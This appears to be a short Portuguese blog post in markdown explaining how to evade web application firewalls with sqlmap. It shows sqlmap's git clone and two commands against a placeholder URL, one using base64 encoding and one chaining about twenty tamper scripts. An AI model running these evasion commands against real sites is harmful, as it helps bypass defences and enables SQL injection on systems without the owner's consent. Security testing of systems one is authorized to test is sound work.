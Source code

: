 ```yaml
---
title: Burlar WAF com SQLMAP
date: 2023-10-16 14:30:00 +0800
categories: [h4ckthreat, Hacking]
tags: [Sqlmap, Hacking] # TAG names should always be lowercase
image: /assets/img/posts/sqlmap.jpg
---
```


<p align="justify"> Com o avanço dos Firewalls de Aplicação da Web (Web Application Firewalls - WAFs), a tarefa de utilizar a ferramenta sqlmap tornou-se progressivamente mais desafiadora, uma vez que as requisições são rotineiramente identificadas como suspeitas e bloqueadas automaticamente. Diante dessa situação, os desenvolvedores da ferramenta têm se empenhado em criar pequenos scripts para contornar esses WAFs e permitir a execução de consultas SQL injection.</p>

<p align="justify">Vamos seguir alguns passos para utilizar o sqlmap de forma mais eficaz:</p>

# 1. Baixando o sqlmap:

```
git clone https://github.com/sqlmapproject/sqlmap
```

# 2. Execute a ferramenta para avaliar a segurança do alvo específico:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=base64encode
```

<p align="justify"> Dessa forma, o script converterá a consulta em uma codificação base64, ajudando a superar alguns tipos de Firewalls.</p>

# 3. Quando se deparar com um Firewall mais sofisticado, será necessário empregar uma combinação de métodos de evasão:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

<p align="justify"> Essa combinação de técnicas de evasão será empregada simultaneamente para ocultar as requisições e passar pelos controles do Firewall, permitindo que o "sqlmap" continue a funcionar de maneira eficaz.</p> 
